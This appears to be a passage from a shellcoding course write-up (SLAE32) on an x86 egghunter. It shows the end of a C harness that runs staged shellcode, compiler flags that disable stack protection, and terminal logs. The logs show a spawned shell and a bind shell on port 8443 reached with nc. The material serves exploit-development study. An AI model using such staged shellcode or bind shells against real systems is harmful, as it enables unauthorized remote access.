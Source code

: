 {
  printf("Egg: %p\n", EGG);  
  printf("Stage1 Length:  %d\n", strlen(stage1));
  printf("Stage2 Length:  %d\n", strlen(stage2));

  int (*ret)() = (int(*)()) stage1;
  ret();
}
{% endhighlight %}

## Testing

{% highlight console linenos %}
kecebong@ubuntu:~/slae32/assigment/egghunter$ gcc -fno-stack-protector -z execstack egghunter.c \
 -o egghunter

kecebong@ubuntu:~/slae32/assigment/egghunter$ ./egghunter
Egg: 0x8048559
Stage1 Length:  35
Stage2 Length:  36
$ id
uid=1000(kecebong) gid=1000(kecebong) groups=1000(kecebong),4(adm),24(cdrom),27(sudo),30(dip),
46(plugdev),108(lpadmin),109(sambashare)
$ exit
kecebong@ubuntu:~/slae32/assigment/egghunter$
{% endhighlight %}

{% highlight console linenos %}
kecebong@ubuntu:~/slae32/assigment/egghunter$ gcc -fno-stack-protector -z execstack egghunter.c \
-o egghunter
kecebong@ubuntu:~/slae32/assigment/egghunter$ ./egghunter
Egg: 0x8048559
Stage1 Length:  35
Stage2 Length:  112

────────────────────────────────────────────────────────────────────────────────────────────────────────
kecebong@ubuntu:~$ lsof -i :8443
COMMAND    PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
egghunter 4071 kecebong    3u  IPv4  54368      0t0  TCP *:8443 (LISTEN)
kecebong@ubuntu:~$ nc -v 127.0.0.1 8443
Connection to 127.0.0.1 8443 port [tcp/*] succeeded!
id
uid=1000(kecebong) gid=1000(kecebong) groups=1000(kecebong),4(adm),24(cdrom),27(sudo),30(dip),
46(plugdev),108(lpadmin),109(sambashare)
{% endhighlight %}

### Demo